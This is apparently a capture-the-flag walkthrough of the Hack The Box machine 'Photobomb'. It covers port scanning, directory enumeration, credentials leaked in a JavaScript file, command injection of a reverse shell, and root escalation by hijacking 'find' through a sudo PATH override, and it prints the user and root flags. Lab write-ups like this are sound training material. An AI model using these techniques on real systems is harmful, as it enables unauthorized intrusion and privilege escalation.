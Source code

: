 ![Photobomb.PNG](/assets/Machines/Easy/Photobomb/photobomb.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.182
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.182
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Add to `/etc/hosts` IP address machine and `photobomb.hbt`

![Photobomb](/assets/Machines/Easy/Photobomb/photobomb-host.PNG)

4. Use **feroxbuster** to enum directories of web site

```bash
┌──(root㉿est)-[/home/kali/Desktop/Photobomb]
└─| feroxbuster -u http://photobomb.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -e
```

**Output**
```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://photobomb.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
401      GET        7l       12w      188c http://photobomb.htb/printer
200      GET        7l       27w      339c http://photobomb.htb/photobomb.js
200      GET       22l       95w      843c http://photobomb.htb/
200      GET        3l       22w    10990c http://photobomb.htb/favicon.ico
401      GET        7l       12w      188c http://photobomb.htb/printers
[####################] - 18s     9552/9552    0s      found:5       errors:0      
[####################] - 18s     4714/4714    260/s   http://photobomb.htb 
[####################] - 17s     4714/4714    271/s   http://photobomb.htb/ 
```

5. Access `http://photobomb.htb/photobomb.js`
![Photobomb-dir.PNG](/assets/Machines/Easy/Photobomb/photobomb-dir.PNG)
* Obtained a user **pH0t0** and password **b0Mb!** to login

6. After login, click on

![Photobomb-button.PNG](/assets/Machines/Easy/Photobomb/photobomb-button.PNG)

and analize with **BurpSuite**

![Photobomb-burp.PNG](/assets/Machines/Easy/Photobomb/photbomb-burp.PNG)

7. We can inject a code of reverse shell, use **https://www.revshells.com/** 
![Photobomb-rev.PNG](/assets/Machines/Easy/Photobomb/photobomb-rev.PNG)
> Use you **tun0** IP address


8. Listen on port of you reverse shell and inject code of reverse shell on petition
![Photobomb-inject.PGN](/assets/Machines/Easy/Photobomb/photobomb-inject.PNG)

9. Spawn a `/bin/bash` on reverse shell
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

**Output**
```bash
wizard@photobomb:~/photobomb$ 
```

10. Obtain a **user flag**
```bash
wizard@photobomb:~$ cd ~          
cd ~
wizard@photobomb:~$ ls
ls
photobomb  user.txt
wizard@photobomb:~$ cat user.txt
cat user.txt
4ea3bdd71c3d24ff0fca5aeb1a0230aa
```


11. To obtain a system flag look **cleanup.sh** file
```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

12. Manipulate a find binary to get a **/bin/bash** how root
```bash
wizard@photobomb:~/photobomb$ cd /tmp 
cd /tmp
wizard@photobomb:/tmp$ echo "/bin/bash" > find
echo "/bin/bash" > find
wizard@photobomb:/tmp$ chmod +x find 
chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

**Output**
```bash
root@photobomb:/home/wizard/photobomb#
```
> Obtained a shell how root

13. Cat a **system flag**
```bash
root@photobomb:/# cd /root
cd /root
root@photobomb:~# ls
ls
root.txt
root@photobomb:~# cat root.txt
cat root.txt
a06bfbdbc0e5f305046a9ae7e725bd7b
```